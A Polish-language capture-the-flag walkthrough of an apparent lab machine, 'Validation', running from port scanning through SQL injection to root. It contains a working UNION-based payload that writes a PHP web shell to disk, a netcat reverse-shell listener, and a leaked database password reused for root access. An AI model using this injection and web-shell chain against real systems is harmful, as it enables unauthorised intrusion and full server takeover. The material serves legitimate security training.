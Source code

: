 Pierwszym krokiem jaki musimy poczynić będzie to skanowanie serwera za pomocą nmap. Możemy tutaj znaleźć ciekawe porty.
```
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
```
Również zrobiłem skanowanie katalogów, ale kompletnie nic ciekawego nie udało mi się znaleźć.
```
                        [Status: 200, Size: 16088, Words: 4698, Lines: 269, Duration: 141ms]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3851ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3851ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3865ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 151ms]
index.php               [Status: 200, Size: 16088, Words: 4698, Lines: 269, Duration: 139ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 134ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 161ms]
```
Udałem się na stronę, widniała tam ciekawa funkcja, odpaliłem burp aby prześledzić ruch. Pierwsze o czym pomyślałem, że może być tutaj podatność SQLi, najpierw przetestowałem parametr username= ale nic kompletnie tam nie udało mi się wstrzyknąć, następnie przetestowałem country= i tam już zaczeły się dziać rzeczy. Pierw przetestowałem jak działa komentowanie, jaki język sql działa na tym serwerze polecam w tym przypadku portswigger, posiada fajny cheat sheet.``` ' union select 1, '-- - ``` Przetestowałem ten parametr, i otrzymałem ciekawy błąd.
```
</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b> on line <b>33</b>
```
Pierwsze co pomyslałem aby spróbować zrobić z tego RCE. 
Znalazłem ciekawy artykuł
```
https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/
```
I znajdował się tam ciekawy ładunek, który postanowiłem wstrzyknąć. Tylko musimy tam trochę pozmieniać aby wszystko działało.
```
' union select 1, '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/dvwa/cmd.php' #
```
Musimy pamiętać aby podmienić ścieżkę oraz komentarz. Udało mi się wstrzyknąć polecenie whoami, wiem, że polecenia wykonuje użytkownik www-data.
Następnie spróbujemy wstrzyknąć reverse-shell aby otrzymać powłokę, pierwszym krokiem będzie włączenie netcat aby nasłuchiwał na wybranym porcie.
``` nc -lvnp 9001```
Za pomocą tego przechwyconego rządania uda nam się uzyskać reverse-shell'a

![obraz](https://github.com/Anogota/Validation/assets/143951834/c37fba7b-8b59-43d1-83cd-2654c0c590c7)

Jak już uzyskałem powłokę, wpisałem ls aby wyświetlić wszystkie pliki.
```
www-data@validation:/var/www/html$ ls
ls
account.php
config.php
css
index.php
js
```
Ukazał mi się ciekawy plik config.php. Więc sprawdziłem co się w nim znajduje i ku mojemy zaskoczeniu.
```
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
Znajdowało się tam hasło, pierwszym krokiem jaki zrobiłem było to su uhc i hasło, niestety nie zadziało. Następnie su root i hasło i boom, mam root'a strasznie proste :D

![obraz](https://github.com/Anogota/Validation/assets/143951834/5ad8bd2a-7aab-41d7-a2e4-98b683b7530e)
